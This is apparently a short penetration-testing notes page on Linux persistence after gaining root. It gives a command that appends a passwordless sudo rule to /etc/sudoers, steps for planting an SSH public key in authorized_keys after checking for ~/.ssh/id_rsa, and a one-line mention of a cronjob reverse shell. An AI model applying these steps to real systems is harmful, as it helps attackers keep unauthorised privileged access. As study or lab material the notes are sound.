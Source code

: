 # 4_persistence

## Root

- Once obtained root, elevate permissions low level user using

```shell
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

## SSH

- Check for the existence of a private key in `~/.ssh/id_rsa`.

- Generate your own SSH key using this [tutorial](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```shell
ssh-keygen -t ed25519 -C "your_email@example.com"
```

- Upload public key of SSH key pair to `authorized_keys_file`.

## Cronjob

- Set up cronjob that establishes reverse shell
 